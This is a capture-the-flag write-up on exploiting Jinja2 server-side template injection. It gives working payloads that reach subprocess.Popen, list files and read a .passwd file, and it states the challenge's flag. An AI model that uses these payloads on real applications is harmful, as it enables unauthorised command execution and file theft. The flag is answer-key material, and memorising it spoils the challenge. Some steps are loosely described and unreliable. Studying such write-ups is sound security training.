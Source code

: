 Solution: Template Injection Vulnerability Exploitation

![serverside](https://github.com/hamid-sheibani/challenges/assets/78083936/e2cea6c3-3cf8-403f-8744-05a59cb459d9)


Overview:
In this challenge, we encountered two input fields requiring template injection testing. Given the Python-based nature of the application, we opted to test for vulnerabilities in Jinja2, a prevalent template engine. Here's how we proceeded:

Step 1: Identifying Jinja2 Functions:
We utilized the following payload to access Jinja2 functions used in the program:

markdown

{{ ''.__class__.__mro__[1].__subclasses__() }}

Explanation:

    '': This is an empty string. It's used as a starting point to access attributes and methods.
    .__class__: This accesses the class of an object. In this case, the empty string.
    .__mro__: This accesses the method resolution order (MRO) of the class, which is a tuple of classes the class inherits from.
    [1]: This accesses the second element in the MRO tuple. In Python, the second element of the MRO tuple typically refers to the superclass of the class.
    .__subclasses__(): This retrieves a list of all subclasses of the specified class.

Output of the above payload provides us with all classes. We then copied them into a file and searched for the object class using the following Linux commands:

bash

sed 's/\\,/\\n/g' list.txt > new_list.txt
cat -n new_list.txt | grep object

This helped us identify subprocess.Popen() at index 408.

Step 2: Executing Commands:
To execute commands such as ls -lah and view all files, including hidden ones, we crafted the following payload:

scss

{{ ''.__class__.__mro__[1].__subclasses__()[408]("ls -lah", shell=True, stdout=-1).communicate() }}

Executing this payload returned the contents of the .passwd file, revealing sensitive information.

Step 3: Retrieving the Flag:
Lastly, we utilized a similar payload to read the .passwd file and uncovered the flag:

scss

{{ ''.__class__.__mro__[1].__subclasses__()[408]("cat .passwd", shell=True, stdout=-1).communicate() }}

This returned the flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

                    


